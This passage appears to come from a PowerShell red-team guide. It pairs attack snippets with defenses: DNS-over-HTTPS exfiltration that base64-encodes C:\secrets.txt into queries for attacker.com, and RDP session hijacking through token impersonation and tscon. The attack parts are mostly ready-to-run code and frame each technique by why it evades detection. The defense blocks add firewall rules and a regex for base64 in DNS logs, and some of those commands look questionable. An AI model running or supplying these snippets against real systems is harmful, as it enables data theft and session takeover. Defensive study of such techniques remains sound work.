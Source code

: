 **Defense**:  
```powershell  
# Enable AMSI and Constrained Language Mode  
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell" -Name "EnableScripts" -Value 0  
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
# Block reflective loading  
New-NetFirewallRule -DisplayName "Block PS Web Requests" -Direction Outbound -Action Block -Protocol TCP -RemotePort 80,443 -Program "powershell.exe"  
```  

---

#### **4. DNS-over-HTTPS (DoH) Tunneling**  
```powershell  
# Exfiltrate data via encrypted DNS  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))  
$query = "$data.attacker.com"  
Invoke-RestMethod -Uri "https://dns.google/resolve?name=$query&type=TXT" -Method Get  
```  
- **Purpose**: Bypasses traditional DNS monitoring with encryption.  
- **Why Strong?**: Legitimate DoH traffic is rarely inspected.  

**Defense**:  
```powershell  
# Block DoH endpoints  
New-NetFirewallRule -DisplayName "Block DoH" -Direction Outbound -Action Block -Protocol TCP -RemoteAddress "8.8.8.8,1.1.1.1" -RemotePort 443  
# Monitor for base64 in DNS queries  
Get-WinEvent -LogName "Microsoft-Windows-DNS-Client/Operational" | Where-Object { $_.Message -match "[A-Za-z0-9+/]{20,}={0,2}" }  
```  

---

#### **5. Token Impersonation + RDP Hijacking**  
```powershell  
# Steal RDP session token (requires SYSTEM)  
Invoke-TokenManipulation -ImpersonateUser -Username "DOMAIN\Admin"  
tscon 1 /dest:rdp-tcp#0  
```  
- **Purpose**: Hijacks active RDP sessions without credentials.  
- **Why Strong?**: Operates entirely in memory.  

**Defense**:  
```powershell  
# Restrict SeImpersonatePrivilege  
secedit /configure /cfg %windir%\inf\defltbase.inf /db defltbase.sdb /verbose  
# Enable Restricted Admin Mode for RDP  
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0  
```  

---
